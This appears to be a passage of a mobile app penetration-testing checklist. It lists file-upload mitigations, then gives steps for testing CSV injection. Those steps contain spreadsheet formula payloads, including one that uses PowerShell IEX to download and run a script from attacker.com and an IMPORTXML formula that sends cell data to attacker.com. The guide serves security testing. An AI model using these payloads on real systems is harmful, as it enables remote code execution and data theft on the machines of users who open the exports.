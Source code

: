 **Generic Mitigation**:
- Whitelist allowed file extensions
- Validate file content (magic bytes)
- Rename uploaded files (random names)
- Store files outside webroot
- Disable script execution in upload directory
- Scan files for malware
- Implement file size limits
- Use separate storage (S3, CDN)
- Set proper file permissions (read-only)
- Generate download URLs (no direct access)

---

## INJECTION

### 38. CSV Injection

**Issue Description**: Malicious formulas in CSV exports can execute commands when opened in spreadsheet applications.

**Execution Steps**:
```bash
# Test CSV injection payloads:

# 1. In profile/input fields, enter:
=cmd|'/c calc'!A1
=1+1+cmd|'/c calc'!A1
@SUM(1+1)*cmd|'/c calc'!A1
+cmd|'/c calc'!A1
-cmd|'/c calc'!A1

# Payload variations:
=1+1+cmd|' /C powershell IEX(wget attacker.com/shell.ps1)'!A1
=cmd|'/C ping attacker.com'!A1
=IMPORTXML(CONCAT("http://attacker.com?v=",CONCATENATE(A1:E1)),"//a")

# 2. Update user profile:
Name: =cmd|'/c calc'!A1
Email: @SUM(1+1)*cmd|'/c notepad'!A1

# 3. Export data to CSV
Click "Export" in app

# 4. Open CSV in Excel/LibreOffice
# Formula will execute

# Using iOS app:
1. Find data export feature
2. Enter malicious formulas in input fields
3. Export data
4. Open exported CSV
5. Check if formula executes

# Test in different fields:
- Username
- Description
- Notes
- Comments
- Address fields
```
